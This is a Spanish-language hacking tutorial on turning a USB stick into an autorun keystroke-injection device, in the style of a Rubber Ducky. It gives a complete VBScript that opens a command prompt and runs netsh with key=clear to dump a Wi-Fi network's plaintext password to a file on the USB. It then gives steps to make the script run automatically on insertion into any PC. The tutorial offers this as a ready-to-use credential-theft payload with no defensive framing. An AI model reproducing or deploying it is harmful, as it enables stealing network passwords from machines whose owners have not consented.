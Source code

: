 ```yaml
---
icon: scroll-old
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# USB AutoRun

Si queremos emular el comportamiento de un USB `Rubber Ducky`, que basicamente cuando insertemos el USB en algun PC se ejecute el script que nosotros hayamos programado de forma automatica, esto se consigue haciendo creer al sistema operativo que se esta conectando un teclado y con el script enviar tecla por tecla lo que se quiere escribir o hacer en el S.O. como si fuera un teclado.

Lo que primero tendremos que hacer sera instalar el siguiente programa llamado `AutoRun Creator`:

URL = [Download AutoRun Creator](https://usb-autorun-creator.softonic.com)

Una vez que hayamos descargado el ejecutable llamado `usbac_setup_smof.exe`, solo tendremos que seguir los pasos de instalacion de forma normal, cuando se haya instalado tendremos que buscar en `windows` lo siguiente:

```
USB AutoRun Creator - Editor
```

Ejecutamos esa aplicacion para que se nos habra el programa para crear el USB `AutoRun`, pero antes de seleccionar las opciones, crearemos un script basico para dumpear la informacion de la `red wifi` seleccionada + la contraseña en texto plano de forma automatica:

## <mark style="color:purple;">Crear Script VBS</mark>

> wifiHack.vbs

```vbs
Set objShell = CreateObject("WScript.Shell")
Set objFSO = CreateObject("Scripting.FileSystemObject")

' 👉 Nombre de la red Wi-Fi y archivo de salida
Dim wifiName
wifiName = "<WIFI_NAME>"
Dim notepadFileName
notepadFileName = "dead.txt"

' 👉 Verifica permisos de administrador
If Not objShell.Run("cmd.exe /c net session >nul 2>&1", 0, True) = 0 Then
    MsgBox "Por favor, ejecuta este script con permisos de administrador.", vbCritical, "Error de permisos"
    WScript.Quit
End If

' 👉 Ruta donde se guardará el archivo (D:\dead.txt)
Dim outputFilePath
outputFilePath = "<LETRA_DE_LA_UNIDAD>:\" & notepadFileName

' 👉 Crear el objeto para enviar teclas
Set x = CreateObject("WScript.Shell")

' 👉 Abrir la ventana de comandos (cmd)
x.SendKeys "^{ESC}"  ' Abre el menú de inicio
WScript.Sleep(1000)

x.SendKeys "cmd"  ' Escribe 'cmd' para buscar el símbolo del sistema
WScript.Sleep(1000)

x.SendKeys "{ENTER}"  ' Ejecuta el comando
WScript.Sleep(1000)

' 👉 Construir el comando para obtener información de la red
x.SendKeys "netsh wlan show profiles """ & wifiName & """ key=clear > """ & outputFilePath & """"
WScript.Sleep(1000)

' 👉 Ejecutar el comando (simula presionar Enter)
x.SendKeys "{ENTER}"
WScript.Sleep(2000)

' 👉 Salir de la ventana de comandos (cmd)
x.SendKeys "exit"
WScript.Sleep(500)
x.SendKeys "{ENTER}"
WScript.Sleep(1000)

' 👉 Verifica si el archivo de salida se ha creado en D:\
If objFSO.FileExists(outputFilePath) Then
    ' 👉 Abre el archivo en Notepad
    objShell.Run "notepad.exe """ & outputFilePath & """", 1, False
Else
    MsgBox "No se pudo generar el archivo: " & outputFilePath, vbCritical, "Error"
End If
```

Lo unico que tendremos que cambiar sera la parte de `<WIFI_NAME>` donde tendremos que sustituirlo por el nombre del `wifi` que queramos sacar info y en concreto la contraseña, despues tambien tendremos que cambiar la parte donde pone `<LETRA_DE_LA_UNIDAD>` por la letra de la unidad del USB que es donde se depositara el archivo `dead.txt` donde estara toda la informacion de la `red wifi` con su contraseña.

> EJEMPLO:

```
"<LETRA_DE_LA_UNIDAD>" = "D:\"

"<WIFI_NAME>" = "wifitest"
```

Una vez echo esto lo guardaremos en el USB y por si acaso crearemos el archivo `dead.txt` en el USB tambien.

## <mark style="color:purple;">Crear USB AutoRun</mark>

Llendo donde estabamos en la interfaz del `USB AutoRun Creator` de la aplicacion, tendremos que darle a `Select` en la primera opcion:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Y en este seleccionaremos el archivo `wifiHack.vbs` que esta en el USB.

Despues en la segunda opcion seleccionaremos `Browser`:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Y seleccionaremos la letra de la unidad del USB, seguidamente le daremos a la opcion `USB Drive`:

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Y le daremos a `OK`.

Una vez configurado todo solo tendremos que darle al boton llamado `Create` y esto nos creara todo para que el USB inicie de forma automatica el el script que seleccionamos y que el S.O. se piense que el USB es un teclado, para que asi se ejecute el script, una vez que se termine de ejecutar el script, veremos que la informacion del `wifi` y la contraseña estara en ese TXT.

Ya no solo podremos ejecutar ese script, si no que podremos programar otros scripts para que hagan lo que queramos.

Solo tendremos que sacar el USB y volverlo a insertar para que se ejecute el script de forma automatica.
